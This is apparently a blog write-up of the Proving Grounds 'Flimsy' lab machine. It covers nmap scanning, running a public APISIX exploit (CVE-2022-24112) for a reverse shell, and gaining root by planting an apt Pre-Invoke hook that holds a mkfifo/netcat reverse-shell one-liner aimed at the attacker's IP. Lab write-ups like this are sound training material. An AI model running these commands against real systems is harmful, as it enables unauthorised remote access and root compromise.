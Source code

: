 ```yaml
---
title: "Proving grounds Play: Flimsy"
layout: post
date: 2023-10-06 02:00
categories: writeup
---
```


Proving grounds Practice - Flimsy CTF writeup.

## Nmap

```text
PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp    open  http                OpenResty web app server 1.21.4.1
|_http-title: Welcome to OpenResty!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: openresty/1.21.4.1
3306/tcp  open  mysql               MySQL (unauthorized)
9443/tcp  open  ssl/tungsten-https?
43500/tcp open  http                OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 43500/tcp open  http - OpenResty web app server

```sh
HTTP/1.1 404 Not Found
Date: Fri, 06 Oct 2023 02:42:05 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

**http-server-header: APISIX/2.8** the http header disclosed the service name and version which is vulnerable to [Apache APISIX 2.12.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50829).

**Exploitation**

```sh
naveenj@hackerspace:|22:26|~/proving_grounds/Flimsy/exploit$ python exploit.py http://192.168.211.220:43500/ 192.168.45.250 4444

                                   .     , 
        _.._ * __*\./ ___  _ \./._ | _ *-+-
       (_][_)|_) |/'\     (/,/'\[_)|(_)| | 
          |                     |          

		(CVE-2022-24112)
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }
```

Netcat Listening...

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Flimsy/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54406
python -c 'import pty; pty.spawn("/bin/bash")'
franklin@flimsy:/root$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download [linpeas.sh]() to the vulnerable machine and run it. The script shows the current user has writable permission to the folder `/etc/apt/apt.conf.d` which allows us to escalate privileges.

```sh
franklin@flimsy:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
< -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
franklin@flimsy:/etc/apt/apt.conf.d$ 
```

Wait for few seconds when the cron runs the file as root we will get reverse shell as root.

```sh
naveenj@hackerspace:|22:31|~/proving_grounds/Flimsy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54730
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

**Root Obtained**

## Reference

- [https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).